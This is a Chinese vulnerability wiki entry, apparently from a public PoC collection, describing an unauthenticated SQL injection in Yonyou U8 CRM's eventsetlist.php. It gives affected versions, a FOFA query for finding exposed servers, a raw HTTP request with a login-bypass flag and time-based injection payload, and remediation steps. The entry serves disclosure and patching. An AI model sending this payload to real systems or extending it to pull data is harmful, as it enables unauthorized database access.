

# 用友U8 CRM eventseteventsetlist.php SQL注入漏洞

# 漏洞描述

用友U8 CRM eventset/eventsetlist.php SQL注入漏洞，未授权攻击者可进行任意数据库查询操作，甚至可能获取服务器权限。

# 影响版本

V18, V16.5, V16.1, V16.0, V15.1, V13

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="用友U8CRM"

POC/EXP：

```
GET /eventset/eventsetlist.php?DontCheckLogin=1&action=stop&stopFlag=1&eventID=1;WAITFOR+DELAY+'0:0:3'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
